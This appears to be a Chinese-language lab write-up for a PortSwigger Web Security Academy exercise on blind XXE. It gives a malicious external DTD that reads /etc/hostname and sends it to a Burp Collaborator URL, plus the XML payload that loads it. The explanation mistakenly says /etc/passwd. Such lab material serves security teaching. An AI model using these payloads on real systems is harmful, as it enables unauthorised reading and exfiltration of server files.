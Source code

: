 ## 盲打xxe时，为了将敏感数据带出，可以使用外部dtd文件



## 1. 首先服务器部署dtd文件，poc内容：

```javascript
<!ENTITY % file SYSTEM "file:///etc/hostname">
//敏感数据保存地址
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://m0nto7pg0wegiq1yunxknsnullrcf1.burpcollaborator.net/?x=%file;'>">
%eval;
%exfiltrate;
```

该DTD执行以下步骤：

- 定义名为的XML参数实体file，其中包含/etc/passwd文件的内容。

- 定义一个名为的XML参数实体eval，其中包含另一个名为的XML参数实体的动态	声明exfiltrate。该exfiltrate实体将通过使含有的值的HTTP请求到攻击者的web服务器进行评价fileURL查询字符串内的实体。

- 使用eval实体，这将导致exfiltrate执行实体的动态声明。

- 使用exfiltrate实体，以便通过请求指定的URL来评估其值。



## 2. xxe，访问攻击服务器部署的dtd文件

poc:

```javascript
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://ac6f1fce1f241d918045d10f01e3006b.web-security-academy.net/exploit.dtd"> %xxe; ]>
<stockCheck><productId>%xxe</productId><storeId>1</storeId></stockCheck>
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/XXE/images/2B3899131D7F4032A752B4885523F872clipboard.png)



## 3. burp collaborator客户端接收到file:///etc/hostname内容

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/XXE/images/C5AB6C9E83864E27863535AE09B0D862clipboard.png)

